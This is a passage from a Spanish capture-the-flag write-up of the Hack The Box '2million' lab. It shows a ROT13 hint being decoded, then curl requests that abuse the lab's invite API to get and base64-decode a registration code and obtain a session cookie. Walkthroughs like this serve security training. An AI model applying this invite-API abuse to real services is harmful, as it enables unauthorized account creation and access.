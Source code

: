 Le hacemos ROT13 en la web de [rot13](https://rot13.com/) y queda el mensaje:
`In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate'`

---------------------------

# 2. Explotación de la API

Hacemos dicha petición, como es una api, tendremos que hacer peticiones en json y poner la cabecera `Content-Type: application/json`

```bash
$: curl -s -X POST http://2million.htb/api/v1/invite/generate -d '{"code":""}' -H "Content-Type: application/json"  
{"0":200,"success":1,"data":{"code":"R000V0YtN0hBTVgtT0pEUDgtUldGVEU=","format":"encoded"}} 

$: curl -sv -X POST http://2million.htb/api/v1/invite/verify -d '{"code":"R000V0YtN0hBTVgtT0pEUDgtUldGVEU="}' -H "Content-Type: application/json"
Set-Cookie: PHPSESSID=bq0vegd024sflnvbpvro6ccmri; path=/
{"0":400,"success":0,"error":{"message":"Missing parameter: code"}}

$: echo "R000V0YtN0hBTVgtT0pEUDgtUldGVEU=" | base64 -d
GM4WF-7HAMX-OJDP8-RWFTE
```
YA hemos conseguido el código, asi que nos registramos en la web con ese código en `/invite` lo que nos redirige a la web de `/login` de ahí a `/register` y de ahi pasamos a `/login`
Se nos setea la cookie `PHPSESSID=bq0vegd024sflnvbpvro6ccmri`, que usaremos para interactuar con la api

![](/assets/images/htb-2million/2million4.png)